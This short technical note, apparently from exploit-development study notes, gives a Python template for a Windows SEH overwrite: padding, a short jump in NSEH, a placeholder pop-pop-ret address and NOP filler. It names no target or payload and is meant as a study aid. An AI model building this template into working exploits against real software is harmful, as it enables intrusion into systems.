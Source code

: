# Windows SEH

Exploit Form:

```python
    buffer = b"A"*400
    buffer += p32(0x06eb9090) # NSEH, short jump to get over SEH
    buffer += p32(...)# SEH, pop pop ret
    buffer += b"\x90"*(600-len(buffer))
```

Overwrite SEH with pop pop ret and place a short jump in NSEH to get over the SEH pointer.



